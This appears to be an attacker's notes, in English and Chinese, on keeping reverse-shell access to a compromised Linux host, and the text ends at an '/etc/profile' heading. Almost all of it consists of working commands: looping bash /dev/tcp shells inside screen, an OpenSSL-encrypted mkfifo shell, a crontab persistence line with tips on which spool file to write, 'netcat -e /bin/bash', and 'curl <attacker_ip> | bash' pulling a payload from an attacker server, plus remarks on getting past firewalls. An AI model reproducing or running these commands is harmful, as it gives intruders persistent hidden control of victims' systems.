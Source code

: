     curl <attacker_ip> | bash

It can hide the network and the firewall may think it's only a http web stream. But other network security devices may detect its raw content!

# multiple methods inclusion

### 1. screen

    screen -s test

输入

    while true; do
        /bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1
    done

    while true; do
        /bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1
        sleep 120
    done

openSSL加密SSL协议后门反弹不直接bash -i

    while true; do
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <attacker_ip>:<port> > /tmp/s; rm /tmp/s
        sleep 120
    done

### 2. crontab

  * * * * * /bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1

I advice if you want to write tasks into crontab, you need to check if it works in crontab. Because sometimes if you are a low priviledge, then you may have no crontab permission, even you did `crontab -e`.

We need to know our username on host, and then write into `/var/spool/cron/[crontabs]/<username>` , or it doesn't work. For example, I am root, then we need to write into `/var/spool/cron/root`(centos); Or `/var/spool/cron/crontabs/root` (Debian/Ubuntu)

### 3. netcat

if hacked host has `netcat`, then `netcat ip port -e /bin/bash`

### 4. curl reverse

attacker creates `index.html` on VPS, and its content is `/bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1`

then attacked host executes the command:

    curl <attacker_ip> | bash

### 5. /etc/profile
